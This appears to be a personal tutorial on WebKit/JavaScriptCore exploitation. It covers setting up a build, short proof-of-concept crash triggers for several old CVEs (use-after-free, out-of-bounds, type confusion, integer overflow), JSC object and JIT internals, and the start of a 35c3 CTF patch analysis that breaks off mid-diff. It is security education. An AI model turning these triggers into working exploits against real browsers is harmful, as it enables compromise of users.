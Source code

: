 #+TITLE: WebKit Exploitation Tutorial

#+begin_quote
  The technique shared in the post may be deprecated in newer versions.
#+end_quote

* Preface
  :PROPERTIES:
  :CUSTOM_ID: preface
  :END:
OKay, binary security is not only /heap/ and /stack/, we still have a
lot to discover despite regular CTF challenge. Browser, Virtual Machine,
and Kernel all play an important role in binary security. And I decide
to study browser first.

I choose a relatively easy one: /WebKit/. (ChakraCore might be easier,
LoL. But there's a rumor about Microsoft canceling the project. Thus I
decided not to choose it).

I will write a series of posts to record my notes in studying /WebKit/
security. It's also my first time learning Browser Security, my posts
*probably* will have *lots of* mistakes. If you notice them, don't be
hesitate to contact me for corrections.

Before reading it, you need to know: - C++ grammar - Assembly Language
grammar - Installation of Virtual Machine - Familiar to Ubuntu and its
command line - Basic compile theory concepts

--------------

* Setup
  :PROPERTIES:
  :CUSTOM_ID: setup
  :END:
Okay, let's start now.

** Virtual Machine
   :PROPERTIES:
   :CUSTOM_ID: virtual-machine
   :END:
First, we need to install a VM as our testing target. Here, I choose
/Ubuntu 18.04 LTS/ and /Ubuntu 16.04 LTS/as our target host. You can
download [[https://www.ubuntu.com/][here]]. If I don't specify the
version, please use *18.04 LTS as default version*.

Mac might be a more appropriate choice since it has XCode and Safari.
Consider to MacOS's high resource consumption and unstable update, I
would rather use Ubuntu.

We need a VM software. I prefer to use
[[https://www.vmware.com/][VMWare]]. Parallel Desktop and
VirtualBox(Free) are also fine, it depends on your personal habit.

I won't tell you how to install Ubuntu on VMWare step by step. However,
I still need to remind you to allocate *as much memory and CPUs as
possible* because compilation consumes a huge amount of resource. An
80GB disk should be enough to store source code and compiled files.

** Source Code
   :PROPERTIES:
   :CUSTOM_ID: source-code
   :END:
You can download WebKit source code in three ways:
[[https://github.com/WebKit/webkit][/git/]], /svn/, and
[[https://webkit.org/getting-the-code/][/archive/]].

The default version manager of WebKit is svn. But I choose git(too
unfamiliar to use svn):

#+begin_example
  git clone git://git.webkit.org/WebKit.git WebKit
#+end_example

** Debugger and Editor
   :PROPERTIES:
   :CUSTOM_ID: debugger-and-editor
   :END:
IDE consumes lots of resource, so I use *vim* to edit source code.

Most debug works I have seen use *lldb* which I am not familiar to.
Therefore, I also install *gdb* with *gef* plugin.

#+begin_src shell
  sudo apt install vim gdb lldb
  wget -q -O- https://github.com/hugsy/gef/raw/master/scripts/gef.sh | sh
#+end_src

** Test
   :PROPERTIES:
   :CUSTOM_ID: test
   :END:
*** Compiling JavaScriptCore
    :PROPERTIES:
    :CUSTOM_ID: compiling-javascriptcore
    :END:
Compiling a full WebKit takes a large amount of time. We only compile
JSC(JavaScript Core) currently, where most vulnerabilities come from.

Now, you should in the *root directory* of WebKit source code. Run this
to prepare dependencies:

#+begin_src shell
  Tools/gtk/install-dependencies
#+end_src

Even though we still not compile full WebKit now, you can install
remaining dependencies first for future testing. *This step is not
required in compiling JSC if you don't want to spend too much time*:

#+begin_src shell
  Tools/Scripts/update-webkitgtk-libs
#+end_src

After that, we can compile JSC:

#+begin_src shell
  Tools/Scripts/build-webkit --jsc-only
#+end_src

A couple of minutes later, we can run JSC by:

#+begin_src shell
  WebKitBuild/Release/bin/jsc
#+end_src

Let's do some tests:

#+begin_example
  >>> 1+1
  2
  >>> var obj = {a:1, b:"test"}
  undefined
  >>> JSON.stringify(obj)
  {"a":1,"b":"test"}
#+end_example

*** Triggering Bugs
    :PROPERTIES:
    :CUSTOM_ID: triggering-bugs
    :END:

#+begin_quote
  Ubuntu 18.04 LTS here
#+end_quote

We use
[[https://bugs.chromium.org/p/project-zero/issues/detail?id=1652][CVE-2018-4416]]
to test, here is the PoC. Store it to =poc.js= at the same folder of
=jsc=:

#+begin_example
  function gc() {
      for (let i = 0; i < 10; i++) {
          let ab = new ArrayBuffer(1024 * 1024 * 10);
      }
  }

  function opt(obj) {
      // Starting the optimization.
      for (let i = 0; i < 500; i++) {

      }

      let tmp = {a: 1};

      gc();
      tmp.__proto__ = {};

      for (let k in tmp) {  // The structure ID of "tmp" is stored in a JSPropertyNameEnumerator.
          tmp.__proto__ = {};

          gc();

          obj.__proto__ = {};  // The structure ID of "obj" equals to tmp's.

          return obj[k];  // Type confusion.
      }
  }

  opt({});

  let fake_object_memory = new Uint32Array(100);
  fake_object_memory[0] = 0x1234;

  let fake_object = opt(fake_object_memory);
  print(fake_object);
#+end_example

First, switch to the vulnerable version:

#+begin_example
  git checkout -b CVE-2018-4416 034abace7ab
#+end_example

#+begin_quote
  It may spend even more time than compiling
#+end_quote

Run: =./jsc poc.js=, and we can get:

#+begin_example
  ASSERTION FAILED: structureID < m_capacity
  ../../Source/JavaScriptCore/runtime/StructureIDTable.h(129) : JSC::Structure* JSC::StructureIDTable::get(JSC::StructureID)
  1   0x7f055ef18c3c WTFReportBacktrace
  2   0x7f055ef18eb4 WTFCrash
  3   0x7f055ef18ec4 WTFIsDebuggerAttached
  4   0x5624a900451c JSC::StructureIDTable::get(unsigned int)
  5   0x7f055e86f146 bool JSC::JSObject::getPropertySlot<true>(JSC::ExecState*, JSC::PropertyName, JSC::PropertySlot&)
  6   0x7f055e85cf64
  7   0x7f055e846693 JSC::JSObject::toPrimitive(JSC::ExecState*, JSC::PreferredPrimitiveType) const
  8   0x7f055e7476bb JSC::JSCell::toPrimitive(JSC::ExecState*, JSC::PreferredPrimitiveType) const
  9   0x7f055e745ac8 JSC::JSValue::toStringSlowCase(JSC::ExecState*, bool) const
  10  0x5624a900b3f1 JSC::JSValue::toString(JSC::ExecState*) const
  11  0x5624a8fcc3a9
  12  0x5624a8fcc70c
  13  0x7f05131fe177
  Illegal instruction (core dumped)
#+end_example

If we run this on latest version(=git checkout master= to switch back,
and delete build content =rm -rf WebKitBuild/Relase/*= and
=rm -rf WebKitBuild/Debug/*=):

#+begin_example
  ./jsc poc.js 
  WARNING: ASAN interferes with JSC signal handlers; useWebAssemblyFastMemory will be disabled.
  OK
  undefined

  =================================================================
  ==96575==ERROR: LeakSanitizer: detected memory leaks

  Direct leak of 96 byte(s) in 3 object(s) allocated from:
      #0 0x7fe1f579e458 in operator new(unsigned long) (/usr/lib/x86_64-linux-gnu/libasan.so.4+0xe0458)
      #1 0x7fe1f2db7cc8 in __gnu_cxx::new_allocator<std::_Sp_counted_deleter<std::mutex*, std::__shared_ptr<std::mutex, (__gnu_cxx::_Lock_policy)2>::_Deleter<std::allocator<std::mutex> >, std::allocator<std::mutex>, (__gnu_cxx::_Lock_policy)2> >::allocate(unsigned long, void const*) (/home/browserbox/WebKit/WebKitBuild/Debug/lib/libJavaScriptCore.so.1+0x5876cc8)
      #2 0x7fe1f2db7a7a in std::allocator_traits<std::allocator<std::_Sp_counted_deleter<std::mutex*, std::__shared_ptr<std::mutex, (__gnu_cxx::_Lock_policy)2>::_Deleter<std::allocator<std::mutex> >, std::allocator<std::mutex>, (__gnu_cxx::_Lock_policy)2> > >::allocate(std::allocator<std::_Sp_counted_deleter<std::mutex*, std::__shared_ptr<std::mutex, 

  ... // lots of error message

  SUMMARY: AddressSanitizer: 216 byte(s) leaked in 6 allocation(s).
#+end_example

Now, we succeed triggering a bug!

I am not gonna to explain the detail(I don't know either). Hope we can
figure out the root cause after a few weeks

--------------

* Understanding WebKit Vulnerability
  :PROPERTIES:
  :CUSTOM_ID: understanding-webkit-vulnerability
  :END:
Now, it's time to discuss something deeper. Before we start to talk
about WebKit architecture, let's find out common bugs in WebKit.

Here, I only discuss binary level related bugs. Some higher level bugs,
like /URL Spoof/ or /UXSS/, are not our topic. Examples below *are not
merely from WebKit*. Some are Chrome's bugs. We will introduce briefly.
And analyze PoC specifically later.

Before reading this part, you are strongly recommended to read some
materials about compiler theory. Basic Pwn knowledge should also be
learned. My explanation is not clear. Again, correct my mistakes if you
find.

This post will be updated several times as my understanding in JSC
becomes deeper. Don't forget to check it later.

** 1. Use After Free
   :PROPERTIES:
   :CUSTOM_ID: use-after-free
   :END:
A.k.a =UAF=. This is common in CTF challenge, a classical scenario:

#+begin_src C
  char* a = malloc(0x100);
  free(a);
  printf("%s", a);
#+end_src

Because of some logic errors. The code will reuse freed memory. Usually,
we can leak or write once we controlled the freed memory.

*CVE-2017-13791* is an example for WebKit UAF. Here is the PoC:

#+begin_example
  <script>
    function jsfuzzer() {
      textarea1.setRangeText("foo");
      textarea2.autofocus = true;
      textarea1.name = "foo";
      form.insertBefore(textarea2, form.firstChild);
      form.submit();
    }
    function eventhandler2() {
      for(var i=0;i<100;i++) {
        var e = document.createElement("input");
        form.appendChild(e);
      }
    }
  </script>
  <body onload=jsfuzzer()>
    <form id="form" onchange="eventhandler2()">
    <textarea id="textarea1">a</textarea>
    <object id="object"></object>
    <textarea id="textarea2">b</textarea>
#+end_example

** 2. Out of Bound
   :PROPERTIES:
   :CUSTOM_ID: out-of-bound
   :END:
A.k.a =OOB=. It's like the overflow in Browser. Still, we can read/write
nearby memory. =OOB= frequently occurs in false optimization of an array
or insufficient check. For
example([[https://bugs.chromium.org/p/project-zero/issues/detail?id=1033][CVE-2017-2447]]):

#+begin_example
  var ba;
  function s(){
      ba = this;
  }

  function dummy(){
      alert("just a function");
  }

  Object.defineProperty(Array.prototype, "0", {set : s });
  var f = dummy.bind({}, 1, 2, 3, 4);
  ba.length = 100000;
  f(1, 2, 3);
#+end_example

#+begin_quote
  When Function.bind is called, the arguments to the call are
  transferred to an Array before they are passed to
  JSBoundFunction::JSBoundFunction. Since it is possible that the Array
  prototype has had a setter added to it, it is possible for user script
  to obtain a reference to this Array, and alter it so that the length
  is longer than the backing native butterfly array. Then when
  boundFunctionCall attempts to copy this array to the call parameters,
  it assumes the length is not longer than the allocated array (which
  would be true if it wasn't altered) and reads out of bounds.
#+end_quote

In most cases. we cannot directly overwrite =$RIP= register. Exploit
writers always craft fake array to turn partial R/W to arbitrary R/W.

** 3. Type Confusion
   :PROPERTIES:
   :CUSTOM_ID: type-confusion
   :END:
It's a special vulnerability that happens in applications with the
compiler. And this bug is slightly difficult to explain.

Imagine we have the following object(32 bits):

#+begin_src C
  struct example{
    int length;
    char *content;
  }
#+end_src

Then, if we have a =length= == =5= with a =content= pointer object in
the memory, it probably shows like this:

#+begin_example
  0x00: 0x00000005 -> length
  0x04: 0xdeadbeef -> pointer
#+end_example

Once we have another object:

#+begin_src C
  struct exploit{
    int length;
    void (*exp)();
  }
#+end_src

We can force the compiler to parse =example= object as =exploit= object.
We can turn the =exp= function to arbitrary address and RCE.

An example for type confusion:

#+begin_example
  var q;
  function g(){
      q = g.caller;
      return 7;
  }

  var a = [1, 2, 3];
  a.length = 4;
  Object.defineProperty(Array.prototype, "3", {get : g});
  [4, 5, 6].concat(a);
  q(0x77777777, 0x77777777, 0);
#+end_example

Cited from
[[https://bugs.chromium.org/p/project-zero/issues/detail?id=1032][CVE-2017-2446]]

#+begin_quote
  If a builtin script in webkit is in strict mode, but then calls a
  function that is not strict, this function is allowed to call
  Function.caller and can obtain a reference to the strict function.
#+end_quote

** 4. Integer Overflow
   :PROPERTIES:
   :CUSTOM_ID: integer-overflow
   :END:
Integer Overflow is also common in CTF. Though Integer Overflow itself
cannot lead RCE, it probably leads to =OOB=.

It's not difficult to understand this bug. Imagine you are running below
code in 32 bits machine:

#+begin_example
  mov eax, 0xffffffff
  add eax, 2
#+end_example

Because the maximum of =eax= is =0xffffffff=. In cannot contact
=0xffffffff= + =2= = =0x100000001=. Thus, the higher byte will be
overflowed(eliminated). The final result of =eax= is =0x00000001=.

This is an example from
WebKit([[https://phoenhex.re/2017-06-02/arrayspread][CVE-2017-2536]]):

#+begin_example
  var a = new Array(0x7fffffff);
  var x = [13, 37, ...a, ...a];
#+end_example

#+begin_quote
  The length is not correctly checked resulting we can overflow the
  length via expanding an array to the old one. Then, we can use the
  extensive array to =OOB=.
#+end_quote

** 5. Else
   :PROPERTIES:
   :CUSTOM_ID: else
   :END:
Some bugs are difficult to categorize: - Race Condition - Unallocated
Memory - ...

I will explain them in detail later.

--------------

* JavaScriptCore in Depth
  :PROPERTIES:
  :CUSTOM_ID: javascriptcore-in-depth
  :END:
The Webkit primarily includes: - JavaScriptCore: JavaScript executing
engine. - WTF: /Web Template Library/, replacement for C++ STL lib. It
has string operations, smart pointer, and etc. The heap operation is
also unique here. - DumpRenderTree: Produce =RenderTree= - WebCore: The
most complicated part. It has CSS, DOM, HTML, render, and etc. Almost
every part of the browser despite components mentioned above.

And the JSC has: - *lexer* - *parser* - start-up interpreter (*LLInt*) -
three javascript JIT compiler, their compile time gradually becomes
longer but run faster and faster: + *baseline JIT*, the initial JIT + a
low-latency optimizing JIT (*DFG*) + a high-throughput optimizing JIT
(*FTL*), final phase of JIT - two WebAssembly execution engines: + BBQ +
OMG

#+begin_quote
  Still a disclaimer, this post might be *inaccurate* or *wrong* in
  explaining WebKit mechanisms
#+end_quote

If you have learned basic compile theory courses, *lexer* and *parser*
are as usual as what taught in classes. But the code generation part is
frustrating. It has one interpreter and three compilers, WTF? JSC also
has many other unconventional features, let's have a look:

** JSC Value Representation
   :PROPERTIES:
   :CUSTOM_ID: jsc-value-representation
   :END:
To easier identifying, JSC's value represents differently: - pointer :
=0000:PPPP:PPPP:PPPP= (begins with 0000, then its address) - double
(begins with 0001 or FFFE): + =0001:****:****:****= +
=FFFE:****:****:****= - integer: =FFFF:0000:IIII:IIII= (use =IIII:IIII=
for storing value) - false: =0x06= - true: =0x07= - undefined: =0x0a= -
null: =0x02=

=0x0=, however, is not a valid value and can lead to a crash.

** JSC Object Model
   :PROPERTIES:
   :CUSTOM_ID: jsc-object-model
   :END:
Unlike Java, which has fix class member, JavaScript allows people to add
properties any time.

So, despite traditionally statically align properties, JSC has a
*butterfly pointer* for adding dynamic properties. It's like an
additional array. Let's explain it in several situations.

Also, JSArray will always be allocated to *butterfly pointer* since they
change dynamically.

We can understand the concept easily with the following graph:

*** 0x0 Fast JSObject
    :PROPERTIES:
    :CUSTOM_ID: x0-fast-jsobject
    :END:
The properties are initialized:

#+begin_example
  var o = {f: 5, g: 6};
#+end_example

The butterfly pointer will be null here since we only have static
properties:

#+begin_example
  --------------
  |structure ID|
  --------------
  |  indexing  |
  --------------
  |    type    |
  --------------
  |    flags   |
  --------------
  | call state |
  --------------
  |    NULL    | --> Butterfly Pointer
  --------------
  |  0xffff000 | --> 5 in JS format
  |  000000005 | 
  --------------
  |  0xffff000 |
  |  000000006 | --> 6 in JS format
  --------------
#+end_example

Let's expand our knowledge of JSObject. As we see, each =structure ID=
has a matched structure table. Inside the table, it contains the
property names and their offsets. In our previous object =o=, the table
looks like:

| property name | location  |
|---------------+-----------|
| "f"           | inline(0) |
| "g"           | inline(1) |

When we want to retrieve a value(e.g. =var v = o.f=), following
behaviors will happen:

#+begin_src cpp
  if (o->structureID == 42)
      v = o->inlineStorage[0]
  else
      v = slowGet(o, “f”)
#+end_src

You might wonder why the compiler will directly retrieve the value via
offset when knowing the =ID= is =42=. This is a mechanism called *inline
caching*, which helps us to get value faster. We won't talk about this
much,
[[http://www.filpizlo.com/slides/pizlo-icooolps2018-inline-caches-slides.pdf][click
here]] for more details.

*** 0x1 JSObject with dynamically added fields
    :PROPERTIES:
    :CUSTOM_ID: x1-jsobject-with-dynamically-added-fields
    :END:
#+begin_example
  var o = {f: 5, g: 6};
  o.h = 7;
#+end_example

Now, the butterfly has a slot, which is 7.

#+begin_example
  --------------
  |structure ID|
  --------------
  |  indexing  |
  --------------
  |    type    |
  --------------
  |    flags   |
  --------------
  | call state |
  --------------
  |  butterfly | -|  -------------
  --------------  |  | 0xffff000 |
  |  0xffff000 |  |  | 000000007 |
  |  000000005 |  |  -------------
  --------------  -> |    ...    |
  |  0xffff000 |
  |  000000006 | 
  --------------
#+end_example

*** 0x2 JSArray with room for 3 array elements
    :PROPERTIES:
    :CUSTOM_ID: x2-jsarray-with-room-for-3-array-elements
    :END:
#+begin_example
  var a = [];
#+end_example

The butterfly initializes an array with estimated size. The first
element =0= means a number of used slots. And =3= means the max slots:

#+begin_example
  --------------
  |structure ID|
  --------------
  |  indexing  |
  --------------
  |    type    |
  --------------
  |    flags   |
  --------------
  | call state |
  --------------
  |  butterfly | -|  -------------
  --------------  |  |     0     |
                  |  ------------- (8 bits for these two elements)
                  |  |     3     |
                  -> -------------
                     |   <hole>  |
                     -------------
                     |   <hole>  |
                     -------------
                     |   <hole>  |
                     -------------
#+end_example

*** 0x3 Object with fast properties and array elements
    :PROPERTIES:
    :CUSTOM_ID: x3-object-with-fast-properties-and-array-elements
    :END:
#+begin_example
  var o = {f: 5, g: 6};
  o[0] = 7;
#+end_example

We filled an element of the array, so =0=(used slots) increases to =1=
now:

#+begin_example
  --------------
  |structure ID|
  --------------
  |  indexing  |
  --------------
  |    type    |
  --------------
  |    flags   |
  --------------
  | call state |
  --------------
  |  butterfly | -|  -------------
  --------------  |  |     1     |
  |  0xffff000 |  |  -------------
  |  000000005 |  |  |     3     |
  --------------  -> -------------
  |  0xffff000 |     | 0xffff000 |
  |  000000006 |     | 000000007 |
  --------------     -------------
                     |   <hole>  |
                     -------------
                     |   <hole>  |
                     -------------
#+end_example

*** 0x4 Object with fast and dynamic properties and array elements
    :PROPERTIES:
    :CUSTOM_ID: x4-object-with-fast-and-dynamic-properties-and-array-elements
    :END:
#+begin_example
  var o = {f: 5, g: 6};
  o[0] = 7;
  o.h = 8;
#+end_example

The new member will be appended before the pointer address. Arrays are
placed on the right and attributes are on the left of butterfly pointer,
just like the wing of a butterfly:

#+begin_example
  --------------
  |structure ID|
  --------------
  |  indexing  |
  --------------
  |    type    |
  --------------
  |    flags   |
  --------------
  | call state |
  --------------
  |  butterfly | -|  -------------
  --------------  |  | 0xffff000 |
  |  0xffff000 |  |  | 000000008 |
  |  000000005 |  |  ------------- 
  --------------  |  |     1     |
  |  0xffff000 |  |  -------------
  |  000000006 |  |  |     2     |
  --------------  -> ------------- (pointer address)
                     | 0xffff000 |
                     | 000000007 |
                     -------------
                     |   <hole>  |
                     -------------
#+end_example

*** 0x5 Exotic object with dynamic properties and array elements
    :PROPERTIES:
    :CUSTOM_ID: x5-exotic-object-with-dynamic-properties-and-array-elements
    :END:
#+begin_example
  var o = new Date();
  o[0] = 7;
  o.h = 8;
#+end_example

We extend the butterfly with a built-in class, the static properties
will not change:

#+begin_example
  --------------
  |structure ID|
  --------------
  |  indexing  |
  --------------
  |    type    |
  --------------
  |    flags   |
  --------------
  | call state |
  --------------
  |  butterfly | -|  -------------
  --------------  |  | 0xffff000 |
  |    < C++   |  |  | 000000008 |
  |   State >  |  -> -------------
  --------------     |     1     |
  |    < C++   |     -------------
  |   State >  |     |     2     |
  --------------     -------------
                     | 0xffff000 |
                     | 000000007 |
                     -------------
                     |   <hole>  |
                     -------------
#+end_example

** Type Inference
   :PROPERTIES:
   :CUSTOM_ID: type-inference
   :END:
JavaScript is a weak, dynamic type language. The compiler will do a lot
of works in type inference, causing it becomes extremely complicated.

*** Watchpoints
    :PROPERTIES:
    :CUSTOM_ID: watchpoints
    :END:
Watchpoints can happen in the following cases: - haveABadTime -
Structure transition - InferredValue - InferredType - and many others...

When above situations happen, it will check whether watchpoint has
optimized. In WebKit, it represents like this:

#+begin_src cpp
  class Watchpoint {
  public:
      virtual void fire() = 0;
  };
#+end_src

For example, the compiler wants to optimize =42.toString()= to ="42"=
(return *directly* rather than use code to convert), it will check if
it's already invalidated. Then, If valid, register watchpoint and do the
optimization.

** Compilers
   :PROPERTIES:
   :CUSTOM_ID: compilers
   :END:
*** 0x0. LLInt
    :PROPERTIES:
    :CUSTOM_ID: x0.-llint
    :END:
At the very beginning, the interpreter will generate *byte code
template*. Use JVM as an example, to executes =.class= file, which is
another kind of byte code template. Byte code helps to execute easier:

#+begin_example
  parser -> bytecompiler -> generatorfication
  -> bytecode linker -> LLInt 
#+end_example

*** 0x1. Baseline JIT and Byte Code Template
    :PROPERTIES:
    :CUSTOM_ID: x1.-baseline-jit-and-byte-code-template
    :END:
Most basic JIT, it will generate =byte code template= here. For example,
this is /add/ in javascript:

#+begin_example
  function foo(a, b)
  {
  return a + b;
  }
#+end_example

This is bytecode IL, which is more straightforward without sophisticated
lexes and more convenient to convert to asm:

#+begin_example
  [ 0] enter
  [ 1] get_scope loc3
  [ 3] mov loc4, loc3
  [ 6] check_traps
  [ 7] add loc6, arg1, arg2
  [12] ret loc6
#+end_example

Code segment =7= and =12= can result following *DFG* IL (which we talk
next). we can notice that it has many type related information when
operating. In line 4, the code will check if the returning type matches:

#+begin_src cpp
  GetLocal(Untyped:@1, arg1(B<Int32>/FlushedInt32), R:Stack(6), bc#7);
  GetLocal(Untyped:@2, arg2(C<BoolInt32>/FlushedInt32), R:Stack(7), bc#7);
  ArithAdd(Int32:@23, Int32:@24, CheckOverflow, Exits, bc#7);
  MovHint(Untyped:@25, loc6, W:SideState, ClobbersExit, bc#7, ExitInvalid);
  Return(Untyped:@25, W:SideState, Exits, bc#12);
#+end_src

The AST looks like this:

#+begin_example
     +----------+
     |  return  |
     +----+-----+
          |
          |
     +----+-----+
     |   add    |
     +----------+
     |          |
     |          |
     v          v
  +--+---+    +-+----+
  | arg1 |    | arg2 |
  +------+    +------+
#+end_example

*** 0x2. DFG
    :PROPERTIES:
    :CUSTOM_ID: x2.-dfg
    :END:
If JSC detects a function running a few times. It will go to the next
phase. The first phase has already generated byte code. So, *DFG parser*
parses byte code directly, which it's less abstract and easier to parse.
Then, DFG will optimize and generate code:

#+begin_example
  DFG bytecode parser -> DFG optimizer 
  -> DFG Backend
#+end_example

In this step, the code runs many times; and they type is relatively
constant. Type check will use *OSR*.

Imagine we will optimize from this:

#+begin_src cpp
  int foo(int* ptr)
  {
  int w, x, y, z;
  w = ... // lots of stuff

  x = is_ok(ptr) ? *ptr : slow_path(ptr);
  y = ... // lots of stuff
  z = is_ok(ptr) ? *ptr : slow_path(ptr); return w + x + y + z;
  }
#+end_src

to this:

#+begin_src cpp
  int foo(int* ptr)
  {
  int w, x, y, z;
  w = ... // lots of stuff

  if (!is_ok(ptr))
    return foo_base1(ptr, w);
  x = *ptr;
  y = ... // lots of stuff
  z = *ptr;
  return w + x + y + z;
  }
#+end_src

The code will run faster because =ptr= will only do type check once. If
the type of /ptr/ is always different, the optimized code runs slower
because of frequent bailing out. Thus, only when the code runs thousands
of times, the browser uses =OSR= to optimize it.

*** 0x3. FLT
    :PROPERTIES:
    :CUSTOM_ID: x3.-flt
    :END:
A function, if, runs a hundred or thousands of time, the JIT will use
*FLT* . Like *DFG*, *FLT* will reuse the *byte code template*, but with
a deeper optimization:

#+begin_example
  DFG bytecode parser -> DFG optimizer
  -> DFG-to-B3 lowering -> B3 Optimizer ->
  Instruction Selection -> Air Optimizer ->
  Air Backend
#+end_example

*** 0x4. More About Optimization
    :PROPERTIES:
    :CUSTOM_ID: x4.-more-about-optimization
    :END:
Let's have a look on change of IR in different optimizing phases:

| IR       | Style                   | Example                                      |
|----------+-------------------------+----------------------------------------------|
| Bytecode | High Level Load/Store   | =bitor dst, left, right=                     |
| DFG      | Medium Level Exotic SSA | =dst: BitOr(Int32:@left, Int32:@right, ...)= |
| B3       | Low Level Normal SSA    | =Int32 @dst = BitOr(@left, @right)=          |
| Air      | Architectural CISC      | =Or32 %src, %dest=                           |

Type check is gradually eliminated. You may understand why there are so
many type confusions in browser CVE now. In addition, they are more and
more similar to machine code.

Once the type check fails, the code will return to previous IR (e.g. a
type check fails in *B3* stage, the compiler will return to *DFG* and
execute in this stage).

** Garbage Collector (TODO)
   :PROPERTIES:
   :CUSTOM_ID: garbage-collector-todo
   :END:
The heap of JSC is based on GC. The objects in heap will have a counter
about their references. GC will scan the heap to collect the useless
memory.

...still, need more materials...

--------------

* Writing Exploitation
  :PROPERTIES:
  :CUSTOM_ID: writing-exploitation
  :END:
Before we start exploiting bugs, we should look at how difficult it is
to write an exploit. We focus on exploit code writing here, the detail
of the vulnerability will not be introduced much.

This challenge is *WebKid* from 35c3 CTF. You can compile WebKit
binary(with instructions), prepared VM, and get exploit code
[[https://github.com/saelo/35c3ctf/tree/master/WebKid][here]]. Also, a
macOS Mojave (10.14.2) should be prepared in VM or real machine (I think
it won't affect crashes in different versions of macOS, but the attack
primitive might be different).

Run via this command:

#+begin_src shell
  DYLD_LIBRARY_PATH=/Path/to/WebKid DYLD_FRAMEWORK_PATH=/Path/to/WebKid /Path/to/WebKid/MiniBrowser.app/Contents/MacOS/MiniBrowser
#+end_src

#+begin_quote
  Remember to use *FULL PATH*. Otherwise, the browser will crash
#+end_quote

If running on a local machine, remember to create =/flag1= for testing.

** Analyzing
   :PROPERTIES:
   :CUSTOM_ID: analyzing
   :END:
Let's look at the patch:

#+begin_example
  diff --git a/Source/JavaScriptCore/runtime/JSObject.cpp b/Source/JavaScriptCore/runtime/JSObject.cpp
  index 20fcd4032ce..a75e4ef47ba 100644
  --- a/Source/JavaScriptCore/runtime/JSObject.cpp
  +++ b/Source/JavaScriptCore/runtime/JSObject.cpp
  @@ -1920,6 +1920,31 @@ bool JSObject::hasPropertyGeneric(ExecState* exec, unsigned propertyName, Proper
       return const_cast<JSObject*>(this)->getPropertySlot(exec, propertyName, slot);
   }
   
  +static bool tryDeletePropertyQuickly(VM& vm, JSObject* thisObject, Structure* structure, PropertyName propertyName, unsigned attributes, PropertyOffset offset)
  +{
  +    ASSERT(isInlineOffset(offset) || isOutOfLineOffset(offset));
  +
  +    Structure* previous = structure->previousID();
  +    if (!previous)
  +        return false;
  +
  +    unsigned unused;
  +    bool isLastAddedProperty = !isValidOffset(previous->get(vm, propertyName, unused));
  +    if (!isLastAddedProperty)
  +        return false;
  +
  +    RELEASE_ASSERT(Structure::addPropertyTransition(vm, previous, propertyName, attributes, offset) == structure);
  +
  +    if (offset == firstOutOfLineOffset && !structure->hasIndexingHeader(thisObject)) {
  +        ASSERT(!previous->hasIndexingHeader(thisObject) && structure->outOfLineCapacity() > 0 && previous->outOfLineCapacity() == 0);
  +        thisObject->setButterfly(vm, nullptr);
  +    }
  +
  +    thisObject->setStructure(vm, previous);
  +
  +    return true;
  +}
  +
   // ECMA 8.6.2.5
   bool JSObject::deleteProperty(JSCell* cell, ExecState* exec, PropertyName propertyName)
   {
  @@ -1946,18 +1971,21 @@ bool JSObject::deleteProperty(JSCell* cell, ExecState* exec, PropertyName proper
   
       Structure* structure = thisObject->structure(vm);
   
  -    bool propertyIsPresent = isValidOffset(structure->get(vm, propertyName, attributes));
  +    PropertyOffset offset = structure->get(vm, propertyName, attributes);
  +    bool propertyIsPresent = isValidOffset(offset);
       if (propertyIsPresent) {
           if (attributes & PropertyAttribute::DontDelete && vm.deletePropertyMode() != VM::DeletePropertyMode::IgnoreConfigurable)
               return false;
   
  -        PropertyOffset offset;
  -        if (structure->isUncacheableDictionary())
  +        if (structure->isUncacheableDictionary()) {
               offset = structure->removePropertyWithoutTransition(vm, propertyName, [] (const ConcurrentJSLocker&, PropertyOffset) { });
  -        else
  -            thisObject->setStructure(vm, Structure::removePropertyTransition(vm, structure, propertyName, offset));
  +        } else {
  +            if (!tryDeletePropertyQuickly(vm, thisObject, structure, propertyName, attributes, offset)) {
  +                thisObject->setStructure(vm, Structure::removePropertyTransition(vm, structure, propertyName, offset));
  +            }
  +        }
   
  -        if (offset != invalidOffset)
  +        if (offset != invalidOffset && (!isOutOfLineOffset(offset) || thisObject->butterfly()))
               thisObject->locationForOffset(offset)->clear();
       }
   
  diff --git a/Source/WebKit/WebProcess/com.apple.WebProcess.sb.in b/Source/WebKit/WebProcess/com.apple.WebProcess.sb.in
  index 536481ecd6a..62189fea227 100644
  --- a/Source/WebKit/WebProcess/com.apple.WebProcess.sb.in
